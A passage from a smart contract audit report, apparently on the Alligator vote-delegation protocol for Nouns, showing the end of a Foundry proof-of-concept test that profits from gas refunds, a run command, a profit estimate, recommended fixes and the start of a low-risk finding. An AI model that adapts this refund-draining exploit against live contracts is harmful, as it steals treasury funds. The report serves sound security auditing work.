 ```solidity
    vm.startPrank(Utils.alice, Utils.alice);
    for (uint i = 0; i < 2; i++) {
        alligator.castRefundableVotesWithReasonBatched(baseRulesBatch, authorities[i], 1, 1, "");
    }

    uint gasAfter = gasleft();

    // Adjust Alice balance as if she paid for gas
    uint gasUsed = gasBefore - gasAfter;
    uint gasCost = gasUsed * tx.gasprice;
    uint balanceAfter = Utils.alice.balance - gasCost;
    uint profit = balanceAfter - balanceBefore;

    console.log("Gas Money Spent: ", (gasBefore - gasAfter) * tx.gasprice);
    console.log("Gas Money Refunded: ", Utils.alice.balance - balanceBefore);
    console.log("Profit (in gwei): ", profit);
}
```

This test can be dropped into `AlligatorV2.t.sol` and run with `forge test -vvv --match testZach__StealUsingRefund --gas-price 200`.

Simulating using a separate test written to run on live Nouns code, it appears the "profit" is ~3mm gwei for the first vote (but this is offset by the ~4mm gwei needed to kick off the exploit transaction). After the first vote, an additional profit of ~5mm gwei per vote is earned.

In a realistic future situation where a user has 20 Nouns delegated, there are 5 proposals live, gas is at the max value of 200 gwei, and ETH is worth $5k apiece, running this would result in a profit of:

`(5mm * (20 Nouns * 5 proposals) - 4mm) / 10^9 * $5k USD per ETH = ~$2500 USD`

**Recommendation**

Remove gas refunding from the protocol and have refunds flow directly from Nouns.

If there is a reason to keep refunding in the protocol, two options exist to avoid this attack:

1. Check `require(msg.sender == tx.origin)` to stop contracts from collecting refunds. Users with multisigs or smart contract wallets could delegating voting to an EOA to collect refunds.

2. Send refunds to `tx.origin` instead of `msg.sender`, and track the last time a given `tx.origin` was refunded, not allowing more than 1 refund to a given address in the same block.

**Review**

Since refunds have been removed from the protocol (see the fix to H-01), this is no longer an issue with Alligator.

## Low Risk

### [L-01] Check for array length equality in subDelegateAllBatched

In `subDelegateAllBatched()`, the user submits two arrays: `targets` and `subDelegateRules`. We then create a delegation to each target for the corresponding set of rules.
